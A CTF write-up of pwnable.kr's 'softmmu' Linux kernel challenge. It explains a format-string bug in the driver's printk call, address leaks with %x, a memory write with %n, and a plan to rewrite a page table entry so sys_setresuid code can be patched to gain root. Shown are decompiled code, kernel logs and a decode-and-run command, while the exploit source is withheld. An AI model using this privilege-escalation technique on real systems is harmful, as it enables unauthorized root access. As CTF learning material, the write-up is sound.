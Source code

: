 ```yaml
---
title: "pwnable.kr's softmmu - An Awesome Linux Kernel Exploit"
---
```


Over the years of my CTF\'ing I always come back to [pwnable.kr](https://pwnable.kr), although a tad outdated it\'s a vast source of simply awesome binary exploitation and pwn challanges. In particular their kernel exploitation series of challanges interest me - they\'re really well made and good introductory material on the matter. Per the policies on the site, this writeup won\'t share any source code and try to be minimal as possible.

The last of those challanges is *softmmu*, here\'s the readme\:\

> ***If you are good at kernel exploit, try this one :)***


<img src="../img/softmmu/softmmu.png" style="width:20%">

## The Challange
We\'re given two things: a linux kernel object file containing some sort of a driver, and access to a fairly old linux virtual machine loaded with said driver. Before we open the executable for further inspection in IDA, let\'s SSH into the machine and check what it does.

```
...
[+] Loading x86 PAE MMU emulator
[+] Write the virtual address to /proc/softmmu
[+] You can obtain it's physical address by reading /proc/softmmu
[+] i.e. echo -ne '\x00\x80\x04\x08' > /proc/softmmu; hexdump -C /proc/softmmu
[+] Let the kernel exploit begin :)

$ uname -a
Linux (none) 3.7.1 #1 SMP Mon Dec 23 06:07:19 PST 2013 i686 GNU/Linux
$ ls /*.ko
/softmmu.ko
```

*Hmm*, it prints out a pretty explanation for us :3 As the name softmmu hints \- the module interfaces with the Linux kernel memory\'s and emulates a x86 Page Address Extension for the MMU. The interface with the module seems to be very straightforward, we write a virtual address to the device file /proc/softmmu and then read back the physical address.

## Finding A Vulnerability
Our end goal is to get root, so we definitely have to find a vulnerability to expoloit in the softmmu module. Let\'s open the kernel object file in IDA to analyze:

<img src="../img/softmmu/overview.png" style="width:70%">

A fairly tame program, not too many functions and fairly straightforward structure. We are not going to reverse the entire program (since I found the vulnerability quickly) but here are some pointers:\
\
> We cannot request the physical addresses of ones outside userspace (seems important for the exploit).\
> It recursively traverses page table within the mmu_walk() function in order to retrieve addresses.\
> Program contains verbose output for debugging purposes.
\
The last point is particulary important; it allows us to understand the inner workings better and perhaps find a vulnerability to exploit, let\'s look at the debugging code.

```
__int64 __usercall get_pte_entry@<edx:eax>(int a1@<eax>, char *a2@<edx>)
{
  int v2; // ebx

  v2 = *(_DWORD *)&a2[8 * ((a1 & 0x1FF000u) >> 12)];
  if ( (v2 & 1) != 0 )
  {
    printk("[Debug] PGD(%x) Dump\n", a2);
    printk(
      "[task:%s] %p:%02x %p:%02x %p:%02x %p:%02x\n",
      (const char *)(__readfsdword((unsigned int)&current_task) + 740),
      a2,
      *a2,
      a2 + 1,
      a2[1],
      a2 + 2,
      a2[2],
      a2 + 3,
      a2[3]);
    printk("[Debug] Dump Virtual Address\n");
    printk("\n===============================\n");
    printk((const char *)req_vaddr);
    printk("\n===============================\n");
  }
  return v2;
}
```

Fairly bloaty raw decompiled code, but breaking it down it is very simple: it retrieves a page table entry from a PD64 (Page Global Directory entry). Besides the pretty cool kernel level code, the vulnerability here is glaringly obvious - the program passes the address we request (a global variable) to printk().\
\
> printk((const char *)req_vaddr);\

#### Boom~! 

We found a string format vulnerability we can control :3 

## Writing The Exploit - Pt. 1
So far this hasn\'t been a challenge for kernel experts, even a script kiddie can find this vulnerability. I must admit, writing the exploit is much more difficult because a plethora of reasons.\
\
In order to pass a string to the module, we\'d have to allocate some bytes in the process memory space. Let\'s try compile a simple C program on the remote machine to do just that:
```
/tmp $ gcc pwn.c
sh: gcc: not found
```
*Oof*, that means we have to cross compile.\
The first problem that imposes us is the fact the remote machine is running a really outdated version of the kernel, paired with the fact it doesn\'t have internet access it really limits us in how we compile for it.
The soltuion that I came up with was as follows\
compile a static no-stdlib program -> compress it -> base64 the tar.gz -> do the reverse on remote.\

#### This means writing a minimal libc from scratch, *good luck me*\.\.\.

After a fair amount of work, I got to a level where I had all of the necessary API\'s to leverage the vulnerability\
On local machine:
```
yael@covenstead:~/softmmu$ gcc pwn.c -nostdlib -m32 -static -o /dev/stdout | gzip - | base64 -w 0
H4sIAAAAAAAAA+1bfWwT5xlz3YSjziNYdmW0nR1p2iE0phAUpY0k0gCB2kFw4RYa9dS49hHEsd2PPtcEgYrzIuI5VnLgE2a1j+Q9v2hqdpUpPHPsqZt...
```
On Remote:
```
/ $ base64 -d | gunzip - > /tmp/x && chmod +x /tmp/x && /tmp/x "%x %x %x %x\n"
< paste base64 code here >
[ 1406.371600] virtual address set to dede000
[ 1406.371963] [Debug] PGD(c2ad1000) Dump
[ 1406.372520] [task:x] c2ad1000:00 c2ad1001:00 c2ad1002:00 c2ad1003:00
[ 1406.372963] [Debyg] Dump Virtual Address
[ 1406.373234]
[ 1406.373234] =============================
[ 1406.373627] c2eb7514 c2ad21000 0 c2ad21001 0
======================================
[ 1406.374963] [Debug] PGD(c2ad1000) Dump
[ 1406.374520] [task:x] c2ad1000:00 c2ad1001:00 c2ad1002:00 c2ad1003:00
[ 1406.374963] [Debyg] Dump Virtual Address
[ 1406.375234]
[ 1406.375234] =============================
[ 1406.375627] c2eb7514 c2ad21000 0 c2ad21001 0
======================================
[<3] softmmu output: 0xBFB81288
```
\
Awesome~! We\'re able to leak addresses off the stack :3\
Finally some progress, we should try running the forsakened %n.\.\.
```
/ $ base64 -d | gunzip - > /tmp/x && chmod +x /tmp/x && /tmp/x "%65n"
< ... >
[ 1406.371600] virtual address set to dede000
[ 1406.371963] [Debug] PGD(c2ad1000) Dump
[ 1406.372520] [task:x] c2ad1000:00 c2ad1001:00 c2ad1002:00 c2ad1003:00
[ 1406.372963] [Debyg] Dump Virtual Address
[ 1406.373234]
[ 1406.373234] =============================
[ 1406.373627]                                                               
======================================
[ 1406.374963] [Debug] PGD(c2ad1000) Dump
[ 1406.374520] [task:A] c2ad1000:00 c2ad1001:00 c2ad1002:00 c2ad1003:00
[ 1406.374963] [Debyg] Dump Virtual Address
[ 1406.375234]
[ 1406.375234] =============================
[ 1406.375627]                                                        
======================================
[<3] softmmu output: 0xBFB81288
```
OMG, it worked and we wrote into the process name <3! (As seen in the debug messages) All of this work wasn\'t for nothing.

## Writing The Exploit - Pt. 2
Now for the second part of the exploit, we have to figure out how the hell we take advantage of the format string vulnerability. This isn\'t like the average format string attack as it\'s not performed on a userland stack, but a kernel one. Besides our request address which occasionally surfaces down the stack we get nada.\
\
Luckily for us we have a bunch of debug values on the stack, some of them might be incredibly useful to craft an exploit. ***Yes!*** The stack is setup in a way we can write to the page table entry any arbtriary value we want, hence we change the permissions of a kernel pages and execute our code as supervisor :3\
(We have a pointer for each byte and the corresponding address)\
\
Since we have to fully comperhend the paging mechanism in full detail to execute this exploit properly, here\'s a diagram of the Page Table Entry structure:

<img src="../img/softmmu/pte.png" style="width:70%">

There are many bits and flops, but assuming basic knowledge of paging nothing is too out of ordinary. The first three flags are interesting: P (**P**resent), R/W (**R**ead/**W**rite) and U/S (**U**ser/**S**upervisor).\
If the **P**resent bit is set then the page is actually in physical memory at the moment, if the **R**ead and **W**rite bit is set then the page is both readable and writable (if not then it is read only) and lastly the **U**Ser/**S**upervisor bit is set based on privellege level.\
\
We can get to work on patching the bytes of the PTE, we are able to patch one of our userspace page entries to pount to a physical adress that contains the kernel code of sys_setresuid() and make it writable. Once we got that we can flip the prillege check from je to jne, call setresuid(0) and obtain root >:3

```
/ $ base64 -d | gunzip - > /tmp/x && chmod +x /tmp/x && /tmp/x
< ... >
{CENSORED_FLAG}
/ # whoami
```

## Conclusions
This without a doubt is a serious challenge full of hurdles. Personally for me it symbolizes some sort of maturity in my cybersecurity journey, I learned so much throughout and I can\'t wait to do more.\
\
About the softmmu itself, this post only showed the a small part of the failures. So much stuff I first tried didn\'t end up working at the end, this only shows how deep and complex it gets. I believe it is a prime example of diving deep and reading old documentation about the kernel\'s inner workings and trying to figure it all out.

<img src="../img/softmmu/softmmu_completed.png" style="width:20%">

TLDR: the kernel is complex